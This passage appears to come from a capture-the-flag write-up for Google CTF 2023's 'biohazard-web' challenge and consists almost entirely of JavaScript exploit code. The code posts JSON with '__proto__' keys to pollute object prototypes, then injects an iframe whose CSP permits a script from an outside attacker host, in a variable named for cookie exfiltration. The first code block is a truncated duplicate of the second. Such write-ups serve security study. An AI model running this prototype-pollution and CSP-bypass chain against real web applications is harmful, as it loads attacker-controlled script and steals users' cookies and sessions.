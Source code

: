 ```js
  },
  body: `{"name":"test","introduction":"<iframe src=\\"${challengeOrigin}/views/view/${firstBio.id}\\" csp=\\"script-src ${cookieExfilScript} ${challengeOrigin}/static/closure-library/ ${challengeOrigin}/static/sanitizer.js ${challengeOrigin}/static/main.js 'unsafe-inline' 'unsafe-eval'\\"></iframe>","favorites":{"hobbies":"","sports":""}, "__proto__": {"* CSP": true}}`
});
const secondBio = await secondResponse.json();

location.href = `/view/${secondBio.id}`;
```

Prototype Pollution:

```js
// https://biohazard-web.2023.ctfcompetition.com
const challengeOrigin = window.origin;
const cookieExfilScript = 'https://attack.shhnjk.com/alert.js';

const firstResponse = await fetch('/create', {
  method:'POST',
  headers: {
    "Content-Type": "application/json",
  },
  body: `{"name":"test","introduction":"","favorites":{"hobbies":"","sports":""}, "__proto__": {"editor": ["${cookieExfilScript}"]}}`
});
const firstBio = await firstResponse.json();

const secondResponse = await fetch('/create', {
  method:'POST',
  headers: {
    "Content-Type": "application/json",
  },
  body: `{"name":"test","introduction":"<iframe src=\\"${challengeOrigin}/views/view/${firstBio.id}\\" csp=\\"script-src ${cookieExfilScript} ${challengeOrigin}/static/closure-library/ ${challengeOrigin}/static/sanitizer.js ${challengeOrigin}/static/main.js 'unsafe-inline' 'unsafe-eval'\\"></iframe>","favorites":{"hobbies":"","sports":""}, "__proto__": {"* CSP": true}}`
});
const secondBio = await secondResponse.json();

location.href=`/view/${secondBio.id}`;
```

## **Web-VEGGIE SODA**
